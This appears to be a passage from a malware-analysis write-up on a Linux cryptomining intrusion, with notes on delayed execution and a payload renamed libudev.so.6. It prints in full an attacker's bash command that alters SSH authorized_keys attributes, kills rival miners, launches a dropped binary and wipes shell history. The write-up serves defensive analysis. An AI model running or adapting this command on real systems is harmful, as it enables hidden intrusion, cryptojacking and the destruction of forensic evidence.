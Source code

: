 **Key Bash Command:**
```bash
bash -c "
crontab -r
chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1
cd /var/tmp

rm -rf /dev/shm/.x /dev/shm/rete* /var/tmp/payload /tmp/.diicot /tmp/kuak
chattr -iae /var/tmp/Documents/.diicot
chattr -iae /var/tmp/.update-logs/History
chattr -iae /var/tmp/.update-logs/Update

rm -rf /var/tmp/.update-logs /var/tmp/Documents
mkdir /var/tmp/Documents >/dev/null 2>&1

cd /var/tmp/
pkill Opera
rm -rf /var/tmp/Documents /var/tmp/.update-logs
rm -rf xmrig .diicot .black Opera
rm -rf .black xmrig.1
pkill cnrig
pkill java
killall java
pkill xmrig
killall cnrig
killall xmrig

cd /var/tmp/
chmod 777 sBksNkqW
./sBksNkqW </dev/null &>/dev/null & disown

history -c
rm -rf .bash_history ~/.bash_history
"
```

**Further Activity:**  
The execution of `sBksNkqW` triggered a bash command that made the hidden `History` file in `/var/tmp/.update-logs` executable, waited 15 seconds, then ran it. This suggests delayed execution to avoid immediate detection. Following this, both the `History` and `Update` files were executed, resulting in the creation of the `.bisis` file.

<p align="center">  
  <img src="https://github.com/user-attachments/assets/86b3831e-04eb-45dd-a53b-377e67315fcf" width="700"/>
  <img src="https://github.com/user-attachments/assets/1e3ea9c2-28d8-4d72-a1cf-099633159153" width="700"/>
</p>

**Stealth & Obfuscation:**  
An unknown process was observed creating a file named `libudev.so.6`, which appeared to be the previously seen `ygljglkjgfg1` file, now renamed to masquerade as a legitimate shared library.

<p align="center">  
  <img src="https://github.com/user-attachments/assets/dbfcfe02-a725-4f02-b6ff-8ffd6f97db1e" width="700"/>
</p>
